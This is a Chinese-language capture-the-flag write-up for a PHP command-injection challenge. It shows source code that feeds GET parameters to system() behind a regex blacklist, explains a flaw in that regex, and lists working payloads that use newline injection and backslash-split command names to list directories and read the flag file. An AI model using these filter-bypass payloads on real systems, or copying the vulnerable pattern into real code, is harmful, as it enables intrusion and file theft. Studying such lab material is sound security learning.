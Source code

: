 # bypass
## 考察知识点
### 1.//在php中转义成/，/在正则表达式中用来转义
### 2.linux中命令的绕过

# 源码如下：
```
<?php
highlight_file(__FILE__);
$a = $_GET['a'];
$b = $_GET['b'];
// try bypass it
if (preg_match("/\'|\"|,|;|\\|\`|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $a))
//    如果含有非法字符，a=null
    $a = "";
//将a用双引号包起来
$a ='"' . $a . '"';
//|\\|\n|=|\|\n|
if (preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $b))
    $b = "";
$b = '"' . $b . '"';

//
$cmd = "file $a $b";
str_replace(" ","","$cmd");
system($cmd);
?>
```

```
a中的
|\\|\`|\*|=||`|\*|=(|`)*)
b中的
|\\|\n|=||\n|=(|\n)
为了看起来方便将||替换为（）
```

#### 所以漏洞点出现，原本a要过滤的\，`,*变成了过滤|`和|*
#### b要过滤的\和\n变成了|\n
#### 因为这个小漏洞此时a和b都可以用\了

### 此处的\可以用来绕过正则过滤
l\s可以列出目录

参考该文章：https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/

可以使用%0a来绕过。

![image](images/E9ED7DE3ED03436794AD41780D2FCD0Eweb1_bypass.png)

```
构造payload:?a=\&b=%0al\s%0a
```
![image](images/6F10B6728F774EE0A31B477CABF2BFFFweb1_bypass2.png)

flag文件不在当前目录下，所以查询其他目录
```
find var/www/html
payload:?a=\&b=%0afin\d%20/var/www/html/%0a
```
![image](images/3C5E331F105843878BE0A465C18DF0E3web1_bypass3.png)

所以此时读取flag文件即可
```
payload:?a=\&b=%0aca\t%20/var/???/html/.F1jh_/h3R3_1S_your_F1A9.txt%0a
```
![image](images/39C079542A7A4690956243C14F7B2C87web1_bypass4.png)


# //TODO 不太明白知识点%0a和www为啥要用？？？
双引号将命令变成了字符串此处采用反引号绕过，但是反引号被过滤了 所以采用%0a